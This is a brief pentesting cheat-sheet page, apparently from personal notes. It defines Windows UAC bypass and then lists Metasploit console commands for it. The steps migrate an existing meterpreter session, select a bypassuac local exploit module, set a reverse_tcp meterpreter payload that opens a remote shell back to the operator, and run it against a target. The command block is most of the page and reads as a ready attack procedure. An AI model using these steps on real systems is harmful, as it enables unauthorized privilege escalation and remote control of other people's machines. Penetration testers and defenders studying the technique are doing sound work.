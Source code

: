 
## What is Bypassing UAC

Bypassing User access Control – Adversaries may bypass UAC mechanisms to elevate process privileges on the system. Windows User Account Control (UAC) allows a program to elevate its privileges (tracked as integrity levels ranging from low to high) to perform a task under administrator-level permissions, possibly by prompting the user for confirmation. 


## Commands

- Take note that to follow those step, you must have a meterpreter session all ready open with the targeted machine

```
# Make sure you have migrate your process ID to a more stable process
# More information on migration 
ps                       ---> Show all the process id
migrate 1234             ---> Migrate the session

# Use Exploit
search bypassuac
use exploit/windows/local/bypassuac_injection_winsxs   ---> or any other bypassuac

# Set Payload
set payload windows/x64/meterpreter/reverse_tcp
show options
Set options              ---> Set the options
set target windows x64
set session X
run
```

More information ---> [[2 - Meterpreter]]